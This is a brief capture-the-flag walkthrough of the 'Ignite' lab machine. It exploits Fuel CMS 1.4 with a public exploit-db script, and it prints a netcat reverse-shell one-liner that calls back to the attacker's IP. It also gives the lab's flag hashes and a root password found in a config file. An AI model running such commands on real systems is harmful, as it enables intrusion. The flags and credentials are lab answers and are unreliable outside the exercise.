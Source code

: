 # IGNITE

## BASIC INFO
```
export IP=10.10.28.21
```

## ROOT IT
> - **User.txt**
>> 6470e394cbf6dab6a91682cc8585059b

Some research on fuel cms v1.4 leads us to a [page](https://www.exploit-db.com/exploits/47138) on exploit-db.\
Using that exploit, changing a few params so that the url is our url and remove `proxies=proxy` in `requests.get()`\
Set up a listener on our machine then execute this command on the prompt from the exploit above.\
`rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.8.8.177 9001 >/tmp/f`\
We're in as www-data.

> - **Root.txt**
>> b9bbcb33e11b80be759c4e844862482d

Look into the index page of fuel. It says that some data are saved in database.php located in fuel/application/config.\
Root password is found. `root:mememe`

![badges](../../../badges/dianchia.png)